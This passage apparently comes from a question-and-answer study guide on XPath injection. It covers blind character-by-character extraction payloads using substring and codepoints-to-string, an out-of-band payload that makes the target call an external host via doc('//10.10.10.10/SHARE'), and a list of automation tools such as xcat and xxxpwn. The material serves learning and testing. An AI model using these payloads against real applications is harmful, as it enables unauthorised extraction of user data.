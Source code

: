 ### 4. Describe Blind Exploitation techniques for XPath Injection.

**Answer**: Blind Exploitation techniques involve inferring data based on the application's response to crafted queries. Examples include:
   ```xml
   and string-length(account)=SIZE_INT
   substring(//user[userid=5]/username,2,1)=CHAR_HERE
   substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
   ```
These techniques allow attackers to retrieve data by testing different conditions and observing the application's response.

---

### 5. What is Out Of Band (OOB) exploitation in the context of XPath Injection?

**Answer**: Out Of Band (OOB) exploitation involves sending data to an external server to retrieve it. This technique is useful when direct extraction of data is not possible. For example:
   ```xml
   http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
   ```
By exploiting XPath Injection, attackers can make the application send data to an external server they control.

---

### 6. How can you use the `substring` and `codepoints-to-string` functions for Blind XPath Injection?

**Answer**: The `substring` function can be used to extract specific characters from a string, while `codepoints-to-string` converts character codes to strings. For example:
   ```xml
   substring(//user[userid=5]/username,2,1)=CHAR_HERE
   substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
   ```
By iterating through possible characters and positions, attackers can retrieve sensitive information.

---

### 7. What tools can be used to automate XPath Injection attacks and retrieve documents?

**Answer**: Some tools for automating XPath Injection attacks include:
- **orf/xcat**: Automates XPath injection attacks to retrieve documents.
- **feakk/xxxpwn**: Advanced XPath Injection Tool.
- **aayla-secura/xxxpwn_smart**: A fork of xxxpwn using predictive text.
- **micsoftvn/xpath-blind-explorer**.
- **Harshal35/XmlChor**: XPath injection exploitation tool.

---
